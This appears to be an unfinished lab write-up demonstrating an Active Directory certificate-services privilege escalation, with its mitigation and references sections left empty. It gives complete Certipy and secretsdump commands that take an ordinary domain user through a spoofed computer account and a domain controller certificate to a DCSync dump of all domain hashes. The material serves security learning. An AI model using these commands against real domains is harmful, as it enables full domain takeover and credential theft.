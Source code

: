 # Outline
- The Attack In Brief
- The Tools Needed
- Lab Setup And Conditions
- Demonstrating The Attack
- Technical Breakdown
- Mitigation
- References and Credits

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# The Needed Tools
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Demonstrating The Attack
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Technical Breakdown
## Center Puzzle Piece: Certificates Can Be Used For Authentication in AD


## Puzzle Piece #1: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #2: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

## Puzzle Piece #3: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits